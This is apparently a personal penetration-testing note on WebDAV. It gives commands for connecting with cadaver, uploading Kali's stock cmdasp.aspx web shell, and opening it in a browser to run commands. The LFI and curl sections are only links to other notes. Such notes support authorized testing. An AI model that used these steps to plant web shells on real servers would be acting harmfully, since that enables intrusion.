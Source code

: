 ```yaml
---
category: Uncategorized
tags: [pentest]
created: 2024-12-21

---
```

![[Pasted image 20220328105716.png]]

#### Login
```bash - kali
cadaver http://$TARGET
```

Sometimes you see webdav at different location, be sure to follow your dirsearch.py results!

#### Reverse Shell
```bash - kali
cp /usr/share/webshells/aspx/cmdasp.aspx .
```

Login with steps above if needed.

```bash - kali
put cmdasp.aspx cmdasp.aspx
```

Visit page via browser.
```
http://$TARGET/cmdasp.aspx
```
#### LFI
![[3._LFI RFI#Webdav creds]]

![[TechLexicon/Penetration Testing/Reference/7._Tools/Hashcat#WebDav]]

#### File Upload
![[TechLexicon/Penetration Testing/Reference/7._Tools/Curl#Upload file]]

#### Webdav trigger webshell
![[TechLexicon/Penetration Testing/Reference/7._Tools/Curl#Webdav trigger webshell]]





